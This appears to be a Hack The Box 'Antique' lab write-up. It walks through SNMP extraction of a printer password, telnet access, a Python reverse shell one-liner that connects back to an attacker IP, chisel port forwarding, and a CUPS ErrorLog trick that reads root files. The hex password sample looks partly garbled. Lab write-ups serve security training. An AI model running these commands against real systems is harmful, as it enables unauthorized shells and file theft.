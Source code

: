 ```yaml
---
title: Antique Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

We see that the TCP scan reports port 23 (telnet) open.

With UDP we find port 161

## User exploit

We are going to append a `snmpbulkwalk` but it only shows us: `iso.3.6.1.2.1 = STRING: "HTB Printer"` This way, we know that we are dealing with a printer network exploit, which has a predefined exploit that allows us to hack the password: 
```shell
snmpwalk -v 2c -c public <IP> .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

Using python together with the `import binascii` library we can decode the password:

```python
import binascii
s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30
31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103
106 111 114 115 11 9 122 123 126 130 131 134 135'
binascii.unhexlify(s.replace(' ',''))
```

And we get `P@ssw0rd@123!!123` which we are going to use to connect via telnet.

doing `exec id` we see that we are part of the lpadmin group, so we can manipulate the printers and pending jobs of other users. Therefore, we are going to send a reverse shell to our local machine:

```shell
exec python3 -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((("<IP>",<PORT>));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

## Root exploit 

Doing `netstat -ant` we see port 631 open, so we are going to use chisel to do a LPF.

Once we start chisel on our local machine, let's pass it to the victim and run the following command:

```shell
./chisel client 10.10.14.73:8000 R:631:127.0.0.1:631
```

In this way, the port 631 of the victim will be ours now. We see that we are in front of CUPS 1.6.1 which is vulenarble to root file read. Therefore, we go to Administration > View Error Log. Usually, this service (CUPS server) runs as root by default, we can do an arbitrary file read.

To do this, we will use `cupsctl` as follows: `cupsctl ErrorLog="/root/root.txt"`.

Finally, we do a curl to `http://localhost:631/admin/log/error_log?` and we can see the root flag.`

